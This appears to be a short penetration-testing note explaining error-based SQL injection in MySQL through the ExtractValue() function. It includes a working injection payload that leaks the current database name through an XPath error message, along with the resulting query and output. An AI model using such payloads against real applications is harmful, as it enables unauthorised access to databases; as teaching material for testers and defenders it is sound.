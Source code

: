 # Error-Based SQL Injection

---

## Error-Based SQL Injection using `ExtractValue()`

[ExtractValue](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html) is a [[mysql|MySQL]] function that runs an XPath query against a string representing XML data. The function's signature follows:

```sql
ExtractValue($XML_DATA, $XPATH_QUERY);
```

If `$XPATH_QUERY` is syntactically incorrect, MySQL returns the following error message:

```txt
XPATH syntax error: $XPATH_QUERY
```

That's right. It directly returns what you passed in. If you pass in the result of another query (which will obviously be invalid XPath syntax), the result of that query will be returned to you. This is what makes this a powerful technique for error-based SQL injection. You can execute queries and have `ExtractValue()` return the result.

### Example: Get the Current Database Name

Let's say you have found a SQL injection vulnerability in a web application. It won't return the results of the query, but it will return any error messages.

The backend query is:

```sql
SELECT name FROM users WHERE name = '$NAME';
```

You can inject into `$NAME`. To [[mysql#Get Current Database|get the current database name]], you inject `blah' UNION SELECT ExtractValue(0x41, CONCAT(0x0a, (SELECT database())));#`, resulting in the following query:

```sql
SELECT name FROM users WHERE name = 'blah' UNION SELECT ExtractValue(0x41, CONCAT(0x0a, (SELECT database())));#';
```

This results in the ccurrent database being rendered to the user::

```txt
XPATH syntax error: sensitive_application_db
```

---

## References

[SecurityIdiots - Error Based Injection using ExtractValue](http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html)

[YouTube - HTB Baby SQL Challenge](https://www.youtube.com/watch?v=26El8SoblVA)
